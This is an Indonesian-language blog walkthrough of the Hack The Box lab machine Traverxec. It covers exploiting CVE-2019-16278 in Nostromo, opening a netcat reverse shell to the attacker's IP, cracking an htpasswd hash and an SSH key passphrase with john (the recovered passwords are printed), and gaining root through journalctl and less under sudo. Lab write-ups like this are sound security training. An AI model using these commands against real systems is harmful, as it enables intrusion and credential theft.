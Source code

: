 ```yaml
---
layout: post
title:  "Traverxec – [Hack The Box] Walkthrough"
date:   2020-09-06 13:35:57 +0700
categories: pentest
tags: [pentest]
---
```

![traverxec_banner](/assets/images/traverxec/banner.png "Traverxec Banner")
## Hack The Box?

Berhubung ini adalah artikel pertama yang saya buat di blog ini, maka saya akan sedikit menjelaskan dulu apa itu Hack The Box.

> Hack The Box is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.

Singkatnya, HTB adalah online platform yang memungkinkan kita untuk menguji kemampuan penetration testing pada lab yang telah disediakan dan akan selalu di perbaharui.  
Selain menyediakan lab untuk meretas machine, HTB juga mempunyai beberapa tantangan lainnya, contohnya Capture The Flag (CTF).  
Nah kali ini saya akan membahas salah satu machine yang bernama Traverxec.

## Machine Details
- OS : Linux
- Difficulty : Easy
- Points : 20
- Release : 16 Nov 2019
- IP : 10.10.10.165

### Reconnaisance & Enumeration
Pertama lakukan enumerasi menggunakan nmap untuk mendapatkan informasi lebih lanjut tentang service yang tersedia pada machine ini.

```bash
nmap -sV -sC 10.10.10.165
```

Setelah menunggu, berikut adalah hasil yang didapatkan dari nmap.

![walk-1](/assets/images/traverxec/1.png)

Terdapat beberapa service yang terbuka yaitu SSH dan HTTP dan menggunakan Nostromo v.1.9.6 sebagai web servernya. Saat web dibuka ternyata hanya menampilkan sebuah website statis.

![walk-2](/assets/images/traverxec/2.png)

Setelah mencari tau lebih lanjut tentang nostromo 1.9.6 ternyata server yang digunakan mempunyai bug Directory Traversal yang bisa mengarah ke serangan RCE via crafted HTTP request.  
Referensi : [CVE-2019-16278](https://www.cvedetails.com/cve/CVE-2019-16278/).

### Gaining Access
Kebetulan sudah ada exploit yang dibuat oleh seorang pentester yang bisa di dapatkan di  
[exploit-db nostromo 1.9.6 – Remote Code Execution](https://www.exploit-db.com/exploits/47837). Langsung saja kita jalankan exploit tersebut.

```bash
python cve2019_16278.py 10.10.10.165 80 "uname -a"
```

![walk-3](/assets/images/traverxec/3.png)

Terlihat bahwa server me-response command “uname -a” yang di berikan. Untuk mempermudah maka kita akan lakukan reverse shell ke server tersebut. Pertama listen netcat di local.

```bash
nc -lvp 1131
```

Lalu lakukan reverse shell ke server

```bash
python cve2019_16278.py 10.10.10.165 80 "/bin/nc.traditional -e /bin/sh 10.10.14.76 1131"
```

![walk-4](/assets/images/traverxec/4.png)

Shell sudah terkoneksi, lalu spawn pty shell menggunakan python agar bash lebih enak dilihat

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Sesuai dengan soalnya, pertama kita harus mendapatkan flag user (user.txt) yang terdapat di direktori /home/{user}/

![walk-5](/assets/images/traverxec/5.png)

Namun saat membuka direktorinya ternyata kita tidak mempunyai akses ke direktori tersebut, terpaksa harus mencari cara lain agar bisa mengakses flag tersebut.

![walk-6](/assets/images/traverxec/6.png)

Setelah mencari cari , ditemukan file **.htpasswd** dan **nhttpd.conf** nya di direktori /var/www/nostromo/conf

![walk-7](/assets/images/traverxec/7.png)

Crack htpasswd tersebut menggunakan **john** dengan wordlist **rockyou.txt** dan didapatkan plaintext dari passwordnya si david, yaitu :
**Nowonly4me**

![walk-8](/assets/images/traverxec/8.png)

Lanjut cek isi dari nhttpd.conf nya, dan ditemukan HOMDIRS di /home/public_www dan setelah di cek isinya terdapat ‘protected-file-area’

![walk-9](/assets/images/traverxec/9.png)

![walk-10](/assets/images/traverxec/10.png)

Didalam folder tersebut berisi backup-ssh yang mungkin bisa dipakai untuk login ke ssh target

![walk-11](/assets/images/traverxec/11.png)

Untuk mendapatkan file tersebut ternyata kita bisa melakukan cara lain. Jadi rencana nya nanti kita akan membuat file berdasarkan base64 yang telah di encode tadi lalu di decode kembali agar file nya kembali seperti semula.  
Referensi : [Gzip Base64 Encode](https://stackoverflow.com/questions/42459909/gzip-base64-encode-and-decode-string-on-both-linux-and-windows)

```bash
cat backup-ssh-identity-files.tgz | base64 –w0
```

![walk-12](/assets/images/traverxec/12.png)

Buat file yang berisi base64 tersebut dan men-decode nya seperti semula

```bash
cat encoded_ssh.txt | base64 -d > backup-ssh-identity-files.tgz
```

![walk-13](/assets/images/traverxec/13.png)

Terdapat beberapa file ssh didalam zip, namun key tersebut menggunakan passphare . Untuk crack passphare dari id_rsa tersebut kita bisa menggunakan john. Namun id_rsa harus dirubah menjadi hash terlebih dahulu menggunakan ssh2john.

```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Lalu crack passphare nya menggunakan wordlist rockyou.txt

```bash
john id_rsa.hash --wordlist=/home/bio/netsec/wordlists/rockyou.txt
```

![walk-14](/assets/images/traverxec/14.png)

Passphare berhasil di dapatkan :  
**hunter** (id_rsa)  
Langsung saja connect ke SSH menggunakan key dan passphare yang sudah di dapatkan.

![walk-15](/assets/images/traverxec/15.png)

Akhirnya, kita berhasil login ke dalam machine tersebut sebagai david, maka flag user berhasil di dapatkan.

![walk-16](/assets/images/traverxec/16.png)

### Privilege Escalation

Nah, sekarang saatnya untuk mendapatkan flag root **(root.txt)** nya yang berada di **/root/**.  
Setelah melihat isi direktori home nya si david, terdapat folder bin yang berisi file script yang sepertinya untuk melihat status dari server webnya.

![walk-17](/assets/images/traverxec/17.png)

Setelah mencari informasi ternyata **journalctl** bisa di eksploitasi, ketika ukuran layar terminal dikecilkan maka output dari file tidak akan tampil seutuhnya dan otomatis menjalankan fungsi/command **“less”** yang bisa digunakan untuk melakukan command didalam shell.

Referensi :
- [GTFOB Less](https://gtfobins.github.io/gtfobins/less/)
- [GTFOB Journalctl](https://gtfobins.github.io/gtfobins/journalctl/)

Karna **journalctl** tadi dijalankan langsung menggunakan sudo (/usr/bin/sudo) maka **journalctl** mempunyai permission dari superuser.

![walk-18](/assets/images/traverxec/18.png)

Akhirnya akses root pun berhasil kita dapatkan, dan selesailah misi kita pada kali ini.

## References
- [CVE-2019-16278](https://www.cvedetails.com/cve/CVE-2019-16278/)
- [Exploit-db nostromo 1.9.6 – Remote Code Execution](https://www.exploit-db.com/exploits/47837)
- [Gzip Base64 Encode](https://stackoverflow.com/questions/42459909/gzip-base64-encode-and-decode-string-on-both-linux-and-windows)
- [GTFOB Less](https://gtfobins.github.io/gtfobins/less/)
- [GTFOB Journalctl](https://gtfobins.github.io/gtfobins/journalctl/)

























